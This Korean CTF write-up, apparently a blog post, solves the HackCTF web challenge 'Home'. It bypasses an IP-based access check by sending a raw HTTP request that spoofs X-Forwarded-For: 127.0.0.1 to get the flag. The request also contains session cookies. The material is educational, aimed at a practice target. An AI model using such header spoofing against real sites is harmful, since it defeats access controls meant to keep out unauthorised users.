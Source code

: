 ```yaml
---
title: "HackCTF - WEB - Home"
date: 2020-04-05 21:04:76
tags: ["web", "HackCTF", "ctf"]
draft: false
---
```


# HackCTF - WEB - Home

일단 문제 사이트에 접근을 하면 아래와 같은 화면으로 IP 주소에 대해 검증을 하여 접근 제한을 하는 모습을 볼 수 있습니다.

![image-20191210201522512](image/HackCTF - WEB - Home/image-20191210201522512.png)

이때 머리말을 생각 해보라고 힌트를 주는데 이떄의 머리말은 HTTP의 Header에 대해 이야기 하는 것이고 예전에 풀었던 RITSEC CTF의 문제와 같이 **X-Forwarded-For** 를 이용하는 것을 알 수 있습니다. 이제 한번 패킷을 전송해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2034
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1 // 루프백 주소를 전달
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; PassAdmin=j0n9hyun
Connection: close
```

이제 결과를 보면 아래와 같이 플래그가 출력 되는 것을 볼 수 있습니다.

![image-20191210202100635](image/HackCTF - WEB - Home/image-20191210202100635.png)
